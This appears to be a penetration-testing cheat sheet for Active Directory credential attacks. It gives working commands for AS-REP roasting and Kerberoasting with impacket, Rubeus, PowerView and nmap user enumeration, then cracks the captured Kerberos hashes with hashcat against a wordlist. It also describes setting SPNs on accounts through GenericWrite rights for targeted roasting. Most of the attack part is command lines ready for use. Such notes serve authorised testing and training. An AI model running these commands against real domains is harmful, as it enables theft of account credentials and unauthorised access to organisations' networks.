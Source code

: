 - impacket-GetNPUsers
```
impacket-GetNPUsers -dc-ip <DC IP> -request -outputfile hashes.asreproast <domain/user_name(to authenticate to DC)>

# without password
GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt

nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC
```

- PowerView
**AS-REP Roasting:** check if _Do not require Kerberos preauthentication_ enabled 
using powerview on windows:
```
Get-DomainUser -PreauthNotRequired
```

crack with hashcat:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -O
```
#### Kerberoasting / traget Kerberoasting

When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN.
These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller.

by getting the TGS that encrypt by the SPN's hash password we can crack it

or if we have _GenericWrite_ or _GenericAll_ permissions on another AD user account we can set an SPN for the user

tools:
- rubeus - on windows
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

- impacket-GetUserSPNs
```
proxychains -q impacket-GetUserSPNs -request -dc-ip <IP> <domain/user(to authenticate to DC)>

sudo impacket-GetUserSPNs -request -dc-ip <DC IP> <domain>/<user_name(to authenticate to DC)>
```

crack hash
```
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt  -r /usr/share/hashcat/rules/best64.rule --force -O
```

